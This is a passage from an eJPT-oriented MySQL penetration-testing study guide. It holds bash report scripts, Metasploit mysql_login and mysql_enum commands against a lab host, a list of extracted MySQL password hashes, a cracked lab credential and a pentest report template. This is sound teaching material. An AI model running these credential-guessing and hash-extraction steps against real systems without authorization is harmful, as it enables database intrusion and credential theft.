# (Advanced techniques beyond eJPT scope)
```

### 🛡️ Integration with Security Tools:

#### **Defensive Analysis Integration:**
```bash
# Log analysis with grep and awk
grep "mysql" /var/log/syslog | awk '{print $1, $2, $3, $9}'

# Network monitoring with tcpdump
tcpdump -i eth0 port 3306 -w mysql_traffic.pcap

# Process monitoring
ps aux | grep mysql
netstat -tulnp | grep 3306
```

#### **Reporting Integration:**
```bash
#!/bin/bash
# MySQL Assessment Report Generator

echo "=== MySQL Security Assessment Report ===" > mysql_report.txt
echo "Generated: $(date)" >> mysql_report.txt
echo "" >> mysql_report.txt

# Service discovery results
echo "== Service Discovery ==" >> mysql_report.txt
nmap -sV -p 3306 $1 >> mysql_report.txt

# Authentication results
echo "== Authentication Testing ==" >> mysql_report.txt
# Results from Metasploit modules

# Hash analysis
echo "== Password Hash Analysis ==" >> mysql_report.txt
if [ -f mysql_hashes.txt ]; then
    john --show mysql_hashes.txt >> mysql_report.txt
fi

echo "Report generated: mysql_report.txt"
```

---

## 📝 Documentation and Reporting

### 📋 Professional Evidence Collection Standards:

#### **Screenshot Requirements:**
1. **Service Discovery Evidence**
   - Nmap scan results showing MySQL service
   - Version detection output
   - Port status confirmation

2. **Authentication Success Evidence**
   - Metasploit module successful login
   - MySQL client connection confirmation
   - Privilege verification screenshots

3. **Enumeration Results Evidence**
   - Database listing screenshots
   - User account enumeration
   - Hash extraction results
   - File system access testing

#### **Command Output Documentation:**
```bash
# Create organized output directory
mkdir -p mysql_assessment_$(date +%Y%m%d)
cd mysql_assessment_$(date +%Y%m%d)

# Document all commands with timestamps
script -a mysql_session.log

# Save all Metasploit outputs
msfconsole -x "spool mysql_enum.log; [commands]; spool off"

# Export hash files
cat > mysql_hashes.txt << EOF
root:*A0E23B565BACCE3E70D223915ABF25542540144
debian-sys-maint:*F4E71A08E02883688230B992EEAC70BC598FA723
filetest:*81F5E21E354D70D8446CDAA731AEBFB6AF209E18
ultra:*827841258900DAA81738418E11B73EB49659BFDD3
EOF
```

### 📊 Professional Report Template:

#### **Executive Summary Template:**
```markdown
# MySQL Database Security Assessment

## Executive Summary
This assessment identified a MySQL database service running on the target system with significant security vulnerabilities including weak authentication controls and excessive privileges.

### Key Findings
- **CRITICAL**: Weak root password enables full database access
- **HIGH**: File system interaction capabilities present privilege escalation risk
- **MEDIUM**: Unencrypted database communications
- **LOW**: Query logging disabled reduces audit capabilities

### Risk Assessment
| Finding | Severity | Impact | Likelihood | Risk Level |
|---------|----------|--------|------------|------------|
| Weak Authentication | Critical | High | High | **CRITICAL** |
| File System Access | High | High | Medium | **HIGH** |
| Unencrypted Communication | Medium | Medium | High | **MEDIUM** |

## Technical Findings

### Database Service Information
- **Target**: demo.ine.local (192.89.45.3)
- **Service**: MySQL 5.5.61-0ubuntu0.14.04.1
- **Port**: 3306/tcp (default)
- **Authentication**: Successful with weak credentials

### Enumeration Results
```bash
# Service Discovery
nmap -sV -p 3306 demo.ine.local
# Result: MySQL 5.5.61 identified

# Authentication Testing  
use auxiliary/scanner/mysql/mysql_login
set RHOSTS demo.ine.local; set USERNAME root; run
# Result: SUCCESS - root:twinkle

# Database Enumeration
use auxiliary/admin/mysql/mysql_enum
# Result: 7 databases, 6 user accounts, file access enabled
```

### Security Vulnerabilities

#### 1. Weak Authentication (CRITICAL)
**Description**: The MySQL root account uses a weak, easily guessable password.
**Evidence**: Successful authentication with credentials "root:twinkle"
**Impact**: Complete database compromise and potential system access
**Recommendation**: Implement strong password policy (minimum 12 characters, complexity requirements)

#### 2. Excessive File System Access (HIGH)
**Description**: MySQL service has read/write access to sensitive system directories.
**Evidence**: File enumeration shows access to /etc/passwd, writable /tmp and /root directories
**Impact**: Potential for privilege escalation and system compromise
**Recommendation**: Configure MySQL with restricted file system permissions

#### 3. Unencrypted Communications (MEDIUM)
**Description**: Database communications occur over unencrypted connections.
**Evidence**: SSL disabled in MySQL configuration
**Impact**: Potential credential interception and data exposure
**Recommendation**: Enable SSL/TLS encryption for all database connections

### Extracted Intelligence
- **User Accounts**: 6 accounts with password hashes extracted
- **Databases**: 7 databases identified (upload, vendors, videos, warehouse, etc.)
- **Sensitive Data**: Potential customer and business data in identified databases
- **System Access**: File system interaction capabilities confirmed

### Recommendations

#### Immediate Actions (0-30 days)
1. Change all MySQL user passwords to strong, unique values
2. Disable remote root access if not required
3. Enable SSL/TLS encryption for database connections
4. Implement network-level access controls (firewall rules)

#### Short-term Actions (30-90 days)
1. Enable comprehensive query and connection logging
2. Implement database activity monitoring
3. Regular security assessments and penetration testing
4. Review and restrict file system permissions

#### Long-term Actions (90+ days)
1. Upgrade MySQL to supported version
2. Implement database encryption at rest
3. Develop incident response procedures
4. Staff security training and awareness programs
```

### 🔄 Automation Scripts for Reporting:

#### **Evidence Collection Script:**
```bash
#!/bin/bash
# MySQL Assessment Evidence Collector

TARGET=$1
DATE=$(date +%Y%m%d_%H%M%S)
REPORT_DIR="mysql_assessment_${DATE}"

mkdir -p $REPORT_DIR/{screenshots,logs,evidence,hashes}

echo "[+] Starting MySQL assessment evidence collection for $TARGET"

# Network discovery
nmap -sV -p 3306 $TARGET > $REPORT_DIR/logs/service_discovery.txt

# Metasploit enumeration
msfconsole -x "
    spool $REPORT_DIR/logs/msf_session.log
    use auxiliary/scanner/mysql/mysql_version
    set RHOSTS $TARGET
    run
    use auxiliary/scanner/mysql/mysql_login  
    set RHOSTS $TARGET
    set USERNAME root
    run
    spool off
    exit" > /dev/null

# Generate summary report
cat > $REPORT_DIR/assessment_summary.txt << EOF
MySQL Security Assessment Summary
Target: $TARGET
Date: $(date)
Assessment Type: External Network Penetration Test

Key Findings:
- Service Status: [TO BE COMPLETED]
- Authentication Status: [TO BE COMPLETED]  
- Database Count: [TO BE COMPLETED]
- Hash Count: [TO BE COMPLETED]

Evidence Location: $REPORT_DIR/
Next Steps: Review logs and complete manual analysis
EOF

echo "[+] Evidence collection complete. Results in $REPORT_DIR/"
```

---

## 📚 Additional Resources

### 📖 Official Documentation and Standards:

#### **MySQL Security Resources:**
- **MySQL 8.0 Security Guide**: https://dev.mysql.com/doc/refman/8.0/en/security.html
- **MySQL Security Best Practices**: https://dev.mysql.com/doc/mysql-security-excerpt/8.0/en/
- **OWASP Database Security**: https://owasp.org/www-project-database-security/

#### **Metasploit Framework Resources:**
- **Official Metasploit Documentation**: https://docs.metasploit.com/
- **MySQL Module Source Code**: https://github.com/rapid7/metasploit-framework/tree/master/modules/auxiliary/scanner/mysql
- **Metasploit Unleashed Course**: https://www.offensive-security.com/metasploit-unleashed/

#### **Nmap Scripting Engine:**
- **MySQL NSE Scripts**: https://nmap.org/nsedoc/categories/database.html
- **NSE Script Development**: https://nmap.org/book/nse-tutorial.html

### 🎓 Training and Certification Resources:

#### **Penetration Testing Courses:**
- **eJPT Certification Path**: https://elearnsecurity.com/product/ejpt-certification/
- **MySQL for Penetration Testers**: Database-specific security testing courses
- **Advanced Database Security**: Enterprise-level database security training

#### **Practice Environments:**
- **VulnHub MySQL Challenges**: Downloadable vulnerable MySQL environments
- **HackTheBox Database Machines**: Online practice targets with MySQL services
- **TryHackMe Database Rooms**: Beginner-friendly MySQL enumeration challenges

### 🛠️ Extended Toolset Resources:

#### **Alternative MySQL Testing Tools:**
- **MySQLDumper**: https://www.mysqldumper.net/ - Database backup and analysis tool
- **MySQL Workbench**: https://www.mysql.com/products/workbench/ - Official GUI administration tool
- **HeidiSQL**: https://www.heidisql.com/ - Lightweight database management interface

#### **Hash Cracking Resources:**
- **John the Ripper**: https://www.openwall.com/john/ - Advanced password cracking
- **Hashcat**: https://hashcat.net/hashcat/ - GPU-accelerated password recovery
- **CrackStation**: https://crackstation.net/ - Online hash lookup service

#### **Network Analysis Tools:**
- **Wireshark**: https://www.wireshark.org/ - Protocol analysis and packet inspection
- **tcpdump**: Network packet capture for MySQL traffic analysis
- **MySQL Query Profiler**: Built-in performance and query analysis tools

### 🌐 Community and Support Resources:

#### **Professional Communities:**
- **MySQL Security Forums**: https://forums.mysql.com/list.php?100
- **Reddit Database Security**: r/AskNetsec, r/Database communities
- **Discord Pentesting Communities**: Real-time assistance and knowledge sharing

#### **Research and Vulnerability Databases:**
- **CVE Database**: https://cve.mitre.org/ - MySQL vulnerability tracking
- **MySQL Security Advisories**: https://www.mysql.com/support/security/
- **Packet Storm Security**: https://packetstormsecurity.com/ - Database exploit database

#### **Blogs and Technical Writing:**
- **PentesterLab MySQL Tutorials**: Hands-on database security exercises
- **HackerOne MySQL Bug Bounty Reports**: Real-world vulnerability case studies
- **SANS Database Security Resources**: Enterprise security best practices

### 📊 Advanced Learning Paths:

#### **Beginner Path (0-6 months):**
1. Complete basic SQL tutorials and database fundamentals
2. Practice with MySQL installation and basic administration
3. Learn Nmap scanning and basic service enumeration
4. Complete eJPT certification and practice labs

#### **Intermediate Path (6-18 months):**
1. Advanced Metasploit framework usage and custom modules
2. Database-specific penetration testing methodologies
3. Custom script development for automation
4. Advanced SQL injection and NoSQL testing techniques

#### **Expert Path (18+ months):**
1. Database security architecture and implementation
2. Advanced persistent threat (APT) simulation in database environments
3. Custom exploit development and 0-day research
4. Enterprise database security consulting and architecture

### 🔐 Security Standards and Compliance:

#### **Industry Standards:**
- **NIST Cybersecurity Framework**: Database security controls and implementation
- **ISO 27001 Database Security**: International security management standards
- **PCI DSS Database Requirements**: Payment card industry database security

#### **Compliance and Auditing:**
- **SOX Database Controls**: Sarbanes-Oxley database security requirements
- **HIPAA Database Security**: Healthcare database protection standards
- **GDPR Database Protection**: European data protection regulation compliance

---

## 🎉 Conclusion

This comprehensive MySQL enumeration guide provides everything needed for successful eJPT exam preparation and real-world database security testing. The combination of theoretical knowledge, practical lab examples, and professional reporting templates ensures thorough understanding and practical application of MySQL security assessment techniques.

### 🏆 Key Takeaways for Success:
- **Systematic Approach**: Follow the enumeration phases methodically
- **Tool Mastery**: Focus on core Metasploit modules and Nmap scripts
- **Documentation**: Always maintain detailed evidence collection
- **Practice**: Repetition with various lab environments builds confidence
- **Integration**: Understand how MySQL testing fits into broader penetration testing methodology

### 🚀 Next Steps:
1. **Practice**: Set up personal lab environments for hands-on experience
2. **Expand**: Learn additional database types (PostgreSQL, MongoDB, Redis)
3. **Automate**: Develop custom scripts for efficiency and consistency
4. **Certify**: Apply knowledge toward eJPT and advanced certifications
5. **Share**: Contribute to the community with findings and improvements

**Remember**: Ethical usage only - these techniques should be applied only in authorized testing environments with proper permissions and legal authorization.

---

*Last Updated: September 2024*  
*Version: 2.1*  
*Contributors: MySQL Security Assessment Team*
